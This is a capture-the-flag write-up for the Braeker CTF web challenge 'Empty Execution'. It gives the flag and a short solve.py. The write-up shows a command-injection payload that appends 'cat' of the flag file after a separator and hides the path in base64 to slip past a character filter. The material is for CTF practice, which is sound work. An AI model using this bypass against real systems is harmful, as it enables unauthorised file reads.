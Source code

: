```yaml
---
CTF: Braeker CTF
Category: web
Points: -1
Date: 2024-02-23
Solved?:
---
```

----
### TL;DR

Folder itself is an executable, so starting with `.` and hiding path to the flag.txt in plain base64 will do the trick.

**Flag**

```
brck{Ch33r_Up_BuddY_JU5t_3x3Cut3_4_D1reCT0ry}
```


### Details

From Dockerfile we can find, that flag.txt path 
![[assets/Pasted image 20240224205604.png]]

so, it's  `/usr/src/app/flag.txt`

For restrictions, we can't use `...` and `/` 
![[assets/Pasted image 20240224210004.png]]
It's a plain check, so we can bypass it via endocing folder path in base64

`/usr/src/app/flag.txt` -> `L3Vzci9zcmMvYXBwL2ZsYWcudHh0`

As mentioned before, folder itself is an executable, so combining all these together we got payload:

```python
. ;cat $(echo 'L3Vzci9zcmMvYXBwL2ZsYWcudHh0' | base64 -d)
```

and is equal to

```bash
. ;cat /usr/src/app/flag.txt
```

After running solve.py we got our flag
![[assets/Pasted image 20240224210414.png]]

---
### Appendix

solve.py

```python
"""
Baeker CTF
Cat: Web
Chall: Empty Execution
"""

import requests as rq
from typing import NoReturn


def main() -> NoReturn:
	payload: dict = {'command': ". ;cat $(echo 'L3Vzci9zcmMvYXBwL2ZsYWcudHh0' | base64 -d)"}
	link: str = "https://braekerctf-empty-execution.chals.io/run_command"
	
	print(rq.post(link, json=payload).text)


if __name__ == '__main__':
	main()
```